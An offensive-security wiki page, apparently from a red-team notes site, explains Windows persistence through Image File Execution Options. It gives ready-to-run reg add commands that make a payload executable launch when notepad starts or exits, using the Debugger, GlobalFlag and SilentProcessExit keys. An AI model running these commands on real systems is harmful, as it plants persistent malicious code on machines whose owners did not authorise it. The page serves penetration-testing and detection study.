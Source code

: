 # Image File Execution Options

## Theory

Image File Execution Options is a Windows registry key which enables developers to attach a debugger to an application and to enable “**GlobalFlag**” for application debugging. This behavior of Windows opens the door for persistence since an arbitrary executable can be used as a debugger of a specific process or as a “**MonitorProcess**“. \
In both scenarios code execution will achieved and the trigger will be either the creation of a process or the exit of an application. However it should be noted that the implementation of this technique requires Administrator level privileges as the registry location which the keys needs to be added is under **HKLM**

## Practice

{% tabs %}
{% tab title="GlobalFlag" %}
With the GlobalFlag persistence technique, payload is triggered when the target application is closed.

```powershell
#Enables the silent exit monitoring for the notepad process.
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512

#Enables the Windows Error Reporting process (WerFault.exe) which will be the parent process of the “MonitorProcess”
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1

#Set up the arbitrary payload
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "C:\temp\payload.exe"
```
{% endtab %}

{% tab title="Debugger" %}
Using the debugger technique, we can define a binary that will be attached to the targeted process

```powershell
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v Debugger /d "C:\tmp\payload.exe"
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://pentestlab.blog/2020/01/13/persistence-image-file-execution-options-injection/" %}

